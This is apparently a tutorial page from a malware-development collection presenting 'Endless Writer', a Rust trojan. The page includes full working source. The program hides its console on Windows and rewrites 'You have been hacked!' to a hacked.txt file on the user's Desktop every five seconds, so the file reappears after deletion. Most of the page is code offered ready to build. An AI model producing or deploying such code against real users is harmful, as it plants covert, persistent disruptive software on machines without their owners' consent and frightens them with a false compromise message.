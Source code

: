 ```yaml
---
title: "Endless Writer"
description: "Endless Writer is a simple malware coded in Rust that writes a message to a file on the user's desktop every 5 seconds."
date: 2025-01-07
categories: [
    Malware,
    Trojan,
    Disruptive,
]
tags: [
    _mw_trojan,
    _mw_cross-platform,
    _rust_file-system-operations,
]
# layout: default
---
```


| Malware | Endless Writer |
|---------|----------------|
| Type    | Trojan         |
| Function| File System Operations|
| OS      | Cross Platform |
| Language| Rust           |
| Behavior| `disruptive`   |
| Attack Delivery | Not Applicable |

## 1. Development

### 1.1. Obtaining the target directory

We use `PathBuf` and not just `std::env::var("-homve variable-".unwrap())` as PathBuf treats the obtained path as a path and not just a string. This allows us to use the join method to append the file name to the path.

Cross platform functionality is obtained using the `cfg!` macro. This allows us to check the target operating system and use the appropriate environment variable to get the home directory.

```rust
fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
```

The home directory is used as a fallback if the desktop directory does not exist. This is relevant for systems without a desktop environment.

### 1.2. Writing to the file

The `OpenOptions` struct is used to open the file. The `write` method is used to overwrite the file if it exists. The `create` method is used to create the file if it does not exist.

```rust
loop {
    match OpenOptions::new()
    .write(true)// Overwrite the file
    //.append(true)// append to the file
    .create(true)
    .open(&target_file){
        Ok(mut file) => {
            if let Err(e) = writeln!(file, "{}", MESSAGE){
                eprintln!("Error: {}", e);
            }
        }
        Err(e) => {
            eprintln!("Error: {}", e);
        }
    }
    sleep(Duration::from_secs(5)); // Pause for 5 seconds
}
```

This functionality is within a loop that runs indefinitely. The `sleep` function is used to pause the program for 5 seconds before writing to the file again. This minimizes resource usage.

### Results
- The console is hidden on windows due to the `#![windows_subsystem = "windows"]` attribute.
![Windows Execution](assets/malware/cross_platform/trojan/endless_writer/win-final.png)
- File re-appears every 5 seconds after deletion.
![Video showing the behavior of the Endless Writer Trojan on Linux.](assets/malware/cross_platform/trojan/endless_writer/lin-final.gif)

## Final Code
```rust
#![windows_subsystem = "windows"]

use std::{
    fs::OpenOptions, io::Write, path::{
        Path, 
        PathBuf
    }, thread::sleep, time::Duration
};

const MESSAGE: &str = "You have been hacked!";

fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
fn main() {
    let target_dir= get_target_dir();
    println!("{:?}", target_dir);
    let target_file = target_dir.join("hacked.txt");
    println!(
        "Writing malicious message to {}", // will still output to the console on other platforms
        target_file.display()
    );
    loop {
        match OpenOptions::new()
        .write(true)// Overwrite the file
        //.append(true)// append to the file
        .create(true)
        .open(&target_file){
            Ok(mut file) => {
                if let Err(e) = writeln!(file, "{}", MESSAGE){
                    eprintln!("Error: {}", e);
                }
            }
            Err(e) => {
                eprintln!("Error: {}", e);
            }
        }
        sleep(Duration::from_secs(5)); // Pause for 5 seconds
    }
}
```
